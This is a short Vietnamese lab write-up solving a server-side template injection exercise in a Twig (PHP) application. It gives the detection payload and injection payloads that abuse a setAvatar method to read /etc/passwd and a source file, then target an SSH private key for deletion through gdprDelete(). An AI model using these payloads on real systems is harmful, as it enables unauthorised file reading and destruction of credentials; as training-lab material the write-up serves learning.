




# Lab: Server-side template injection with a custom exploit

## Phát hiện

- Template engine: **Twig (PHP)**
- SSTI injection point: `blog-post-author-display=user.first_name}}{{7/0}}`
- Error: Division by zero → xác nhận Twig template injection

```
PHP Warning: Division by zero in /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(378) : eval()'d code on line 24
```

## Khai thác

### Bước 1: Khám phá class User

- Upload file PHP không thành công
- 
- Khám phá: class `User` có method `setAvatar(path, mime_type)`

### Bước 2: Arbitrary file read via setAvatar()

Gọi hàm với tham số tùy ý:

```
user.setAvatar('/etc/passwd', 'image/png')
```

Access `/avatar?avatar=wiener`:

✓ Đọc được nội dung `/etc/passwd`

### Bước 3: Đọc source code User.php

```
user.setAvatar('/home/carlos/User.php', 'image/png')
```



**Phát hiện**: Method `gdprDelete()` xóa trực tiếp file tại `avatarLink`

### Bước 4: Delete file qua gdprDelete()

1. Đặt avatar link trỏ tới target file:

   ```
   user.setAvatar('/home/carlos/.ssh/id_rsa', 'image/png')
   ```

   

2. Gọi gdprDelete():

   ```
   user.gdprDelete()
   ```

3. Reload page → error + **Lab solved** ✓
